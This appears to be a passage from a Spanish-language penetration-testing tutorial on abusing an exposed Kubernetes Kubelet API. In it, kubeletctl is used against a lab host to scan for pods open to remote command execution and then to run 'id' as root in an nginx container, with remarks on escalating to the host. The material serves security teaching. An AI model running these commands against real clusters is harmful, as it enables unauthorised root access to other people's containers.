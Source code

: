 Para interactuar de manera efectiva con los pods dentro del entorno de Kubernetes, es importante tener una comprensión clara de los comandos disponibles. Un enfoque que puede ser particularmente útil es utilizar el comando `scan rce` en `kubeletctl`. Este comando proporciona información valiosa y permite una gestión eficiente de los pods.

### Kubelet API - Comandos Disponibles



```r
cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 scan rce

┌─────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                   Node with pods vulnerable to RCE                                  │
├───┬──────────────┬────────────────────────────────────┬─────────────┬─────────────────────────┬─────┤
│   │ NODE IP      │ PODS                               │ NAMESPACE   │ CONTAINERS              │ RCE │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│   │              │                                    │             │                         │ RUN │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 1 │ 10.129.10.11 │ nginx                              │ default     │ nginx                   │ +   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 2 │              │ etcd-steamcloud                    │ kube-system │ etcd                    │ -   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
```

También es posible que interactuemos con un contenedor de manera interactiva y obtengamos información sobre el alcance de nuestros privilegios dentro de él. Esto nos permite entender mejor nuestro nivel de acceso y control sobre el contenido del contenedor.

### Kubelet API - Ejecutando Comandos



```r
cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx

uid=0(root) gid=0(root) groups=0(root)
```

La salida del comando muestra que el usuario actual que ejecuta el comando `id` dentro del contenedor tiene privilegios de root. Esto indica que hemos obtenido acceso administrativo dentro del contenedor, lo que podría llevar potencialmente a vulnerabilidades de escalada de privilegios. Si obtenemos acceso a un contenedor con privilegios de root, podemos realizar acciones adicionales en el sistema host u otros contenedores.

---